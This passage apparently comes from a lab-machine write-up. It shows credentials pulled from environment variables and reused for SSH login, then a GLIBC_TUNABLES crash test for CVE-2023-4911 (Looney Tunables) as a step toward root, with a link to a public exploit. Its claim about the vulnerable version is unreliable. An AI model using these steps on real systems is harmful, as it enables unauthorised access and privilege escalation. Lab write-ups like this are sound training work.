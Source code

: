 ```
OLDPWD=/
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Credentials

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Seems to be interesting but I had no idea where to use them.

And then the most easy illumination... Why don't try to use that credentials as ssh in the machine?

```bash
ssh metalytics@10.10.11.233
An4lytics_ds20223#
```

aaand got user.

# ROOT


Enumertion with `linpeas.sh` `lse.sh` gave nothing useful.

But then i looked with `uname -a` to the ubuntu version and I came up that maybe the machine can be vulnerable (thanks to its version)
to the famous vulnerability also knwon as `Looney Tunables CVE-2023-4911`.

```
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

```

doing `ldd --version` confirmed the ldd vulberable because (<= 1.5 version)

and running the poc:

```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help

Segmentation fault (core dumped)
```

gives segmentation fault so it must be vulnerable! 

https://github.com/ruycr4ft/CVE-2023-4911

Location and version of `libc` to compile the exploit

```bash
ldd /bin/bash
  linux-vdso.so.1 (0x00007ffd229a6000)
  libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007fc655e47000)
  libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc655c00000)
  /lib64/ld-linux-x86-64.so.2 (0x00007fc655fe2000)
```
